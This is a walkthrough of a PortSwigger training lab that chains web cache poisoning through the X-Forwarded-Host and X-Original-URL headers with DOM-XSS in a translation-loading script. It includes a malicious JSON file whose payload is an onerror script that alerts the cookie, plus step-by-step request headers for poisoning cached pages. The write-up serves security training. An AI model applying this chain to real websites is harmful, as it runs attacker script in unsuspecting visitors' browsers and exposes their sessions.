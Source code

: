 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.

![Web cache poisoning](/_static/images/cache17.png)

![Web cache poisoning](/_static/images/cache18.png)

3. In Burp Repeater, experiment with the `X-Forwarded-Host` header. It can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.

![Web cache poisoning](/_static/images/cache19.png)

4. The website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English:

![Web cache poisoning](/_static/images/cache20.png)

```text
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

5. Go to the exploit server and edit the file name to match the path used by the vulnerable website: `/resources/json/translations.json`. 
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

![Web cache poisoning](/_static/images/cache22.png)

8. **Store** the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the `lang` cookie for Spanish:
    `lang=es`

![Web cache poisoning](/_static/images/cache23.png)

![Web cache poisoning](/_static/images/cache24.png)

10. Send the request to Burp Repeater. Add a cache buster like `?cb=1234` and the `X-Forwarded-Host` header with the exploit server ID: `X-Forwarded-Host: exploit-server-id.exploit-server.net`. 
11. Send and confirm that the exploit server is reflected in the response.

![Web cache poisoning](/_static/images/cache25.png)

12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. The cache for the Spanish page is poisoned, but the target user's language is set to English. It is not possible to exploit users with their language set to English, so a way to forcibly change language is needed.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. When changing the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the `GET` request for the home page to Burp Repeater and add a cache buster.
16. The `X-Original-URL` can be used to change the path of the request to explicitly set `/setlang/es`. This response cannot be cached because it contains the `Set-Cookie` header.
17. The home page sometimes uses backslashes as a folder separator. The server normalises these to forward slashes using a redirect. As a result, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. This `302` response is cacheable and can be used to force other users to the Spanish version of the home page.
18. Combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import the malicious JSON file from the exploit server.
19. And while the cache is still poisoned, poison the `GET /` page using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## PoC

```{raw} html
<iframe width="560" height="315"
src="https://tube.spdns.org/videos/embed/f2c423a8-c7d1-4414-9a81-ef48e8c59310"
title="Combining web cache poisoning vulnerabilities"
frameborder="0"
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
allowfullscreen
sandbox="allow-same-origin allow-scripts allow-popups"
style="width: 100%; height: 360px; border: none;"></iframe>
```

----

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  
